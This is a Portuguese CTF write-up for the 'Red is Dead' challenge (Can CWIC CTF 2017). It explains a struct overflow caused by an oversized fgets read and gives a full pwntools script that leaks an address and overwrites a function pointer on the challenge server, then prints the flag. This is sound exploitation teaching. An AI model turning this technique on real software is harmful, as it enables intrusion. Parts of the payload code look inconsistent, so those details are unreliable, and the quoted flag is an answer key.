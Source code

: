 ```yaml
---
title:  "Red is Dead - Can CWIC CTF 2017"
date:   2017-10-14 10:47:06
categories: [write-ups]
tags: [Can CWIC CTF 2017]
---
```


Analisando a estrutura `user` nós se depara com uma variável color (8 bytes), uma variável name (8 bytes) e um ponteiro (8 bytes)
sendo uma estrutura de 24 bytes em sistemas 64 bits

``` c
struct user {
    char color[8];
    char name[8];
    void (*next)(struct user*);
};
```

linha 17 a  20 não importa para nós, vamos pular e ir para as funções `success_knight` e `success_king`.
``` c
void success_knight(struct user *user) {
    printf("Keeper: Right. Off you go.\n");
    user->next = NULL;
}

void success_king(struct user *user) {
    printf("Keeper: What? I don't know that! Auuuuuuuugh!\n");
    printf("FLAG\n");
    user->next = NULL;
}
```
temos duas funções, uma `success_knight` e uma `success_king`, essa foi fácil, a função success king é a função final ontde entrega a
flag, e a função success_knight é apenas um caminho que não vai da em nada, então descartamos ela!

vamos para proxima função `check_knight`.
``` c
void check_knight(struct user *user) {
    user->next = success_knight;
    printf("Keeper: What is your favorite color?\n");
    char *res = fgets(user->color, sizeof(struct user), stdin);
    if (res == NULL) {
        user->next = NULL;
        return;
    }
    chomp(user->color);
    if (strcmp(user->color,"red")) {
        user->next = dead;
    }
}
```
Observando a linha 36 me deparei com um overflow
``` c
char *res = fgets(user->color, sizeof(struct user), stdin);
```
Aqui ele tá usando o sizeof para pegar a quantidade de bytes da estrutura user e definir
na variável color, ou seja, o que era 8 bytes agr virou 24 bytes!, o que isso nos ajudará?
poderemos fazer um buffer overflow que nos retornará alguns vazamentos de endereços

``` c
void check_king(struct user *user) {
    user->next = success_king;
    printf("Keeper: What is the air-speed velocity of an unladen swallow?\n");
    printf("%s: What do you mean?\n", user->name);
    char *res = fgets(user->color, sizeof(struct user), stdin);
    if (res == NULL) {
        user->next = NULL;
        return;
    }
    chomp(user->color);
    user->next = success_king;
    if (strcmp(user->color,"An African or European swallow?")) {
        user->next = dead;
    }
}
```

``` c
void start(struct user *user) {
    printf("Keeper: Stop! What is your name?\n");
    char *res = fgets(user->name, sizeof(struct user), stdin);
    if (res == NULL) {
        user->next = NULL;
        return;
    }
    chomp(user->name);

    size_t len = strlen(user->name);
    if (len < 2) { printf("Keeper: Sorry `%s', your name is too short\n", user->name);
        user->next = NULL;
        return;
    }

    if(!strncmp(user->name, "Arthur", 6)) {
        user->next = check_king;
        printf("Arthur: It is Arthur, King of the Britons.\n");
    } else {
        user->next = check_knight;
        printf("%s: Sir %s of Camelot.\n", user->name, user->name);
    }
}
```

Bem, Nós poderia começar com o nome `Arthur` e nós iria para `check_king` nós realizaríamos a substituição do usuário seguinte, mas não havia como ir para o seguinte check!

então nós iria para `user->next = success_king;` que nos daria a flag, foi o que eu pensei, porém, not so easy!

``` c
chomp(user->color);
    user->next = success_king;
    if (strcmp(user->color,"An African or European swallow?")) {
        user->next = dead;
```

Para nós ir para o `success king` isso era impossível, pois o comprimento da string era (31) era maior do que o número de bytes para a cor (24), portanto, o strcmp sempre retornaria verdadeiro, e o próximo usuário iria para dead.

Portanto o check correto é o `check_knight`
``` c
if (strcmp(user->color,"red")) {
    user->next = dead;
}
```

Temos que burlar a cor para red, isso é fácil já que o fgets ler bytes nulos nós fazeria com`‘red\0’`, cor burlada
agora vamos ajeitar o caminho do `success_king`

Dando um objdump -t <nome do arquivo> teremos o andress das minhas duas funções `success_king` e `success_knight`

``` c
000000000040084e success_king
000000000040082a success_knight
```

Agora para calcular o deslocamento basta diminuir o andress de uma função pela outra

``` python
>>> hex (0x000000000040084e - 0x000000000040082a)
'0x25'
>>> 0x25
37
```

Temos nossa distancia de uma função para outra, `37`, então, teremos que subtrair do andress do `check_king`
tendo tudo que precisamos, é hora do solve

``` python
from pwn import *
import struct
import time

def p(x):
    return struct.pack("<q", x)

addr = 0
offset = -37

r = remote('159.203.38.169', 5683)
r.recv(1024)

print("[*] Triggering leak...")
r.send('knightAA' + '\n')
time.sleep(0.3)

print("[*] Retrieving address of check_knight...")
resp = r.recv(1024).strip()
addr = resp[8:14] + '\x00\x00'
addr = struct.unpack("<q", addr)[0]

print("[*] Calculating address of success_king...")
addr += offset

print("[*] Calling success_king...")
r.send('red\0' + '0x00' + '0x000000' + p(addr))
time.sleep(0.3)

resp = r.recv(1024)
print(resp[resp.find('FLAG'):])
r.close()
```

``` c
[+] Opening connection to 159.203.38.169 on port 5683: Done
[*] Triggering leak...
[*] Retrieving address of check_knight...
[*] Calculating address of success_king...
[*] Calling success_king...
FLAG{Y0uCr0ss3dTh3Br1g30fD3ath}

[*] Closed connection to 159.203.38.169 port 5683
```

`FLAG{Y0uCr0ss3dTh3Br1g30fD3ath}`

[Download da challenge](https://www.sendspace.com/file/m9mm2s){:target="_blank"}

Agradecimentos ao Mateus Pimentel
